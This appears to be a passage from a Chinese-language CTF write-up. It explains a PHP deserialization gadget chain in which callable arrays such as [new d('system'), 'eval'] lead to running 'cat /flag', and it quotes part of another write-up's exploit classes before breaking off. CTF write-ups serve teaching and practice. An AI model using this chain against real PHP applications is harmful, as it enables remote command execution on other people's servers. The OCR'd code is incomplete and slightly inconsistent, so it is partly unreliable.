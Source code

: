         到了最后一步的绕圈子了，

        ```php
        ($this->call)($this->value);
        class d {
            public $value_1;
            public function __construct($command)//方便传参
            {
                $this->value_1 = $command;
            }
            public function eval($call) {
                $call($this->value);
            }
        }
        //显然先是($this->call_1)()来完成数组调用，$this->value_1作为参数；调用到d中的eval()方法；
        //然后又是eval($call)中的$call参数，来进行数组调用$call($this->value);即$this->value_1()调用
        //于是最后是调用d中的  $this->value($value_1) 作为可变函数
        构造$this->call = [new d('system'), 'eval'];
           $this->value = [new d('cat /flag'), 'eval'];
        ```

        网上的wp

        ```php
        <?php
        
        class a
        {
            public $test;
        }
        
        abstract class b
        {
            private $b;
        
            public function __construct()
            {
                $this->b = [$this, 'eval'];
            }
        }
        
        class c extends b
        {
            private $call;
            protected $value;
        
            public function __construct()
            {
                parent::__construct();
                $this->call = [new d('system'), 'eval'];
                $this->value = [new d('cat /flag'), 'eval'];
            }
        }
        
        class d
        {
            public $value;
        